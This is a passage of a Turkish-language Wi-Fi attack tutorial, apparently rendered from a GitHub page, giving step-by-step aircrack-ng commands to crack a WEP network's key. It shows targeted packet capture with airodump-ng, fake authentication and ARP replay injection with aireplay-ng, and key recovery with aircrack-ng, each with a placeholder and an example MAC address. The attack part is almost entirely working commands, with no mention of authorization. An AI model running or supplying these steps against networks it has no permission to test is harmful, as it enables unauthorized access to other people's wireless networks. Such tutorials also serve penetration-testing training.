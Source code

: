 **bash**

**sudo airodump-ng wlan0mon**

**📌 Hedef ağı seçtikten sonra özel olarak o ağı taramak için:**

**bash**

**sudo airodump-ng -c [Kanal Numarası] --bssid [Ağ MAC Adresi] -w dump wlan0mon**

**📌 Örnek:**

**bash**

**sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w dump wlan0mon**

**Bu komut sadece belirtilen ağa odaklanarak paketleri kaydeder.**

### **🔹 Adım 3: Paket Enjeksiyonu (Fake Authentication) ile Veri Toplama**

**WEP kırma işlemi için yeterli paket toplamak gerekir.**

**📌 Ağ ile bağlantı kurmak için sahte kimlik doğrulama gönder:**

**bash**

**sudo aireplay-ng -1 0 -a [Ağ MAC] -h [Kendi MAC Adresin] wlan0mon**

**📌 Örnek:**

**bash**

**sudo aireplay-ng -1 0 -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0mon**

**🔹 Eğer ağdan paket toplamak yavaş ilerliyorsa ARP replay saldırısı ile hızlandırılabilir:**

**bash**

**sudo aireplay-ng -3 -b [Ağ MAC] -h [Kendi MAC Adresin] wlan0mon**

**📌 Örnek:**

**bash**

**sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0mon**

**Bu komut, daha fazla IV (Initialization Vector) toplamak için paketleri tekrar oynatır.**

### **🔹 Adım 4: WEP Şifresini Kırma**

**Yeterli paket toplandıktan sonra WEP anahtarını kırmak için aircrack-ng kullanılır:**

**bash**

**sudo aircrack-ng -b [Ağ MAC] dump.cap**

**📌 Örnek:**

**bash**

**sudo aircrack-ng -b AA:BB:CC:DD:EE:FF dump.cap**

**🚀 Eğer yeterli IV toplandıysa WEP şifresi birkaç dakika içinde kırılacaktır.**
